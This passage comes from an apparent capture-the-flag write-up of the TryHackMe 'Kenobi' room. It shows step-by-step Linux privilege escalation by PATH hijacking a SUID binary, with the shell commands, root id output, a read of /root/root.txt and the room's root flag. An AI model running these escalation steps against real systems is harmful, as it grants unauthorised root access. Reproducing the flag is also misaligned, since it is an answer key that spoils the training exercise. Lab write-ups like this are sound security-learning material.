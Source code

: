 We demonstrated this by copying `/bin/sh` into a file named `curl`, making it executable, and updating our `PATH` variable:

```bash
cd /tmp
echo /bin/sh > curl
chmod 777 curl
export PATH=/tmp:$PATH
/usr/bin/menu
```

![Copy bin/sh into PATH](https://notesbynisha.com/assets/images/thm/ctf/kenobi/thm-kenobi-18.png)

When `menu` executed `curl`, it actually invoked our shell as root.


```bash
id
uid=0(root) gid=1000(kenobi) groups=1000(kenobi),...
```

This sets up a classic and powerful privilege escalation vector known as **PATH hijacking**.


---

### Capturing the Root Flag

With root access achieved, I navigated to the root user's home directory and retrieved the final flag:


```bash
cat /root/root.txt
```
**Q:  What is the root flag (/root/root.txt)?
**Root Flag:** `177b3cd8562289f37382721c28381f02`

![Capture the root flag](https://notesbynisha.com/assets/images/thm/ctf/kenobi/thm-kenobi-19.png)

---

## Lessons Learned

- Enumeration is everything — it led us to discover open ports, accessible shares, and service versions.

- The `mod_copy` vulnerability in ProFTPD enabled file extraction and SSH access.

- Misconfigured SUID binaries can be devastating when they rely on PATH without hardcoded command paths.

- PATH hijacking remains a critical privilege escalation technique on Linux systems.

This was a fantastic room to practice chaining enumeration and exploitation steps together for a full system compromise.
